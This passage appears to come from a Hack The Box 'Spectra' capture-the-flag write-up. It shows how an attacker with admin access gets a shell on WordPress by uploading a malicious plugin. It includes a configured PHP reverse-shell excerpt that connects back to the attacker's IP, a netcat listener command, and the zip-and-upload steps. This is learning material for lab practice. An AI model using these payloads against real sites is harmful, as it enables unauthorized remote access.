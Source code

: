   ```php
  /**
   * Plugin Name: evilplugin
   * Version: 1.0
   * Author: evilauthor
   * Author URI: http://evilplugin.test.com
   * License: GPL2
   */
  ```

- Create another file with the desired payload. In this case, as my objective is to directly get a reverse shell, made a copy of [Pentest Monkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), changing the details to my IP address and port, saving it as `exploit.php`.

  ```php
  // Usage
  // -----
  // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.10.10.10';  // CHANGE THIS
  $port = 4443;       // CHANGE THIS
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  ```

- Compress the file as below, where the file name must be the same as the plugin header with the zip extension.

  ```bash
  $ zip evilplugin.zip evilplugin.php exploit.php
    adding: evilplugin.php (deflated 9%)
    adding: exploit.php (deflated 59%)
  ```
  
- Once created, accessed the WordPress portal, authenticated with the administrative account and, from the left side, selected the options *Plugins* > *Add New* and, at the top of the page, hit the button *Upload Plugin*

![HTB Spectra - Upload evilplugin.zip](https://i.imgur.com/UlBkZNE.png){: .align-center}

- Initialize the listener according to the configured payload. In our case, I've started a `netcat` listener using the command line below

  ```bash
  nc -lnvp 4443
  ```

- Selected the zip file and hit the button *Install Now*

![HTB Spectra - Installed evilplugin.zip](https://i.imgur.com/sNlvuWi.png){: .align-center}
